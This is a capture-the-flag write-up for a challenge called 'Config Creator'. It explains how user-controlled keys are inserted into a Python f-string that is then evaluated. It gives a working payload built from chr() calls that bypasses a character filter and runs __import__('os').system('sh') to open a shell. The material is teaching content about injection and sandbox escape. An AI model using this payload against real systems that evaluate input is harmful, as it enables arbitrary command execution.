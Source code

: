 # Write-up | Config Creator

The program lets you create a configuration files through python fstrings. 

It reads the keys and values and create a template which looks like this:

```python
f"""
configuration [
    key1: {key1};
    key2: {key2};
    ...
]
"""
```

Then this template is evaluated to generate the actual configuration file.

The issue is that you control the fstring, so you can set a key with a name of `dir()` for example. So your template would look like this:

```python
f"""
configuration [
    dir(): {dir()};
]
"""
```

And once evaluated it would look like this:

```bash
configuration [
    dir(): ['__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__']
;
]
```

So you just need to find the right string to pop a shell, sadly you quickly realize that a lot of characters are stripped. The only characters allowed are:

```python
string.digits + string.ascii_letters + "(),[]"
``` 

So it's just a jail escape :)

One way to solve this is to launch:

```python
eval("__import__('os').system('sh')")
```

But you need to build the string `"__import__('os').system('sh')"`.
This is done like this **in python3.6.4**:

```python
dir(str())[55] == "join"
getattr(str(), "join") == "".join
"__import__('os').system('sh')" == "".join(chr(91), ..., chr(41))
```

Final exploit:

```python
key = eval(getattr(str(),dir(str())[55])([chr(95),chr(95),chr(105),chr(109),chr(112),chr(111),chr(114),chr(116),chr(95),chr(95),chr(40),chr(39),chr(111),chr(115),chr(39),chr(41),chr(46),chr(115),chr(121),chr(115),chr(116),chr(101),chr(109),chr(40),chr(39),chr(115),chr(104),chr(39),chr(41)]))
value = 123
```

Please see *exploit/exploit* for the full automated exploit.
